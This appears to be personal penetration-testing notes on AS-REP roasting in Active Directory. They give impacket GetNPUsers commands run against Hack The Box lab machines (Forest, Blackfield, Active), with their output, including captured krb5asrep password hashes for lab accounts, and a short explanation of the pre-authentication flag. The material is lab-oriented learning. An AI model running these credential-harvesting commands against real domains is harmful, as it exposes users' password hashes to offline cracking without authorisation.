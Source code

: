 ## [Cracking Active Directory Passwords with AS-REP Roasting](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)

> ... steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.
> Using anonymous bind you can enumerate LDAP and get a list of valid usernames.
> Then, you may use the GetNPUsers script from the impacket to check which of these usernames has Kerberos pre-authentication disabled.
> This is called AS-REP-Roasting.

Box | Domain | IP 
-|-|-
Forest | htb.local | 10.10.10.161
BLACKFIELD | BLACKFIELD.local | 10.10.10.

### TL;DR
```
GetNPUsers htb.local/ -request
GetNPUsers htb.local/ -r
GetNPUsers htb.local/ -dc-ip $ip
GetNPUsers htb.local/ -dc-ip $ip -request
GetNPUsers htb.local/ -dc-ip $ip -r
GetNPUsers BLACKFIELD.local/ -usersfile valid-users.txt -r
```


## Works with Forest, but not with Active
### HTB Forest vulnerable to ASREP, but not with HTB Active
```
$ impacket-GetNPUsers htb.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:09:07.367813  2023-08-02 11:47:00.513833  0x410200
```

### HTB Active is NOT vulnerable to ASREP
```
$ impacket-GetNPUsers active.htb/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
```

### Common Mistake - Domain Name without "/" suffix
```
$ impacket-GetNPUsers htb.local  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Domain should be specified!
```

### Examples; HTB Forest
```
$ impacket-GetNPUsers htb.local/ -request  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:10:42.227380  2023-08-02 11:47:00.513833  0x410200 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:282f708038e3d413dcbb692377168a0c$a57ae2b2cd5cd99d5c063f53c3321feef6b6d805cf318cadeb5be31c297541b0cfaa35b0e447eed21def3b6c9f472d64cf381b51429abab7bea41cf769be50aaeed52dcce3e8c5f9c1b6686d62d2ca217ee369c810ad582a046fa5f093fa6f9891daf3e02b6b0c576b9b28fc37c8a615d499c7303497b21873cd9bdc1d01f69d628dd66bdf63cdae985a50f0d6dd30b9ecd59e6fd56610cf2a63bf58920ceff8c28a81c8ec0aedf3e68cee83986c094af2caa38423435923fcfecea279d816b5e601436a7b10e1b966771e7f8cb3cc5f3ada3c375f2c8f2fc1b1a4d658eb28d2307331eb653a
```

### GetNPUsers htb.local/ -dc-ip $ip
```
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip $ip
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200
```

### GetNPUsers htb.local/ -dc-ip $ip -request
```
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip $ip -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200


$krb5asrep$23$svc-alfresco@HTB.LOCAL:725910cae0bc4d7afa0f322cf48c22ec$ea47da97143367e99e1f1ace94bef5f4b7d21f23e9496c27e51ae0cb498996b9581cc8fbcbe7ab10db77fbf3da7d27364f9ce868c64eed607c33df0b4d24a0e731fa9dce764e38c6dabaa9103c511771888f02e3c4e1e7bff80a245d78a4dd8e7c8dcf2e1c63e2c55932648bc09000f2e0227c5295d11845f6b0c5471e3246fa2d1ee3ba80f63eb0eef5b10067bfd1ec12f3a2dec5ada44bda4e5402bc3e25d8118e875def2b0798100065ca43f01f2823c758d0943bb54e5c8d20260b2cd4dedce4e8a4558eabee260f1008f33801e9e3bb8802c24065296c42c2c654e662450a05806dc400

C:\Tools\impacket-master\examples>
```

### Not all user 
$ GetNPUsers BLACKFIELD.local/ -usersfile valid-users.txt -r
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:f764e18d4bf1c000c1caba2c30a836e6$1fd948cf3592f7da94563cde9ffb2d7363c280284c1226c91a7cfa6bfeb8226fe8f2dfe2443d071e732d5cd25de24dd02024d1575b4db0353d8cbe54dcd5ca241f1a643462adaf97184522f0b2fd05fa6d19ce521b49d0a314a56f274e623caf478a7f0228eb9e5fc74bcdb98f4eaf567d4d28cfeb09dbe3291e5c5503cfd5738e9febd987cdff89d27fd2d0074eb9dc21d3fc42882b73c0b4873d8064c524e8d8f9ec57747c30deaa4a17b892d8905146c95f7429f72640ba6c179477c110ca5ca3396f6b7ed3ec77cc9de8de09435fe97e444dce3d9fc7310b6743809bf7b7193a90c45749b07fc4b3f8bc8ae9d39b41ebe7e3

"audit2020" and "svc_backup" are valid users. However, "UF_DONT_REQUIRE_PREAUTH" flag is not set for users "audit2020" and "svc_backup" so we can't get krb5asrep hash from them.

"UF_DONT_REQUIRE_PREAUTH" flag tells the Kerberos server not to require pre-authentication for the user. Without this flag set, the server will always require pre-authentication, which includes sending a krb5asrep message.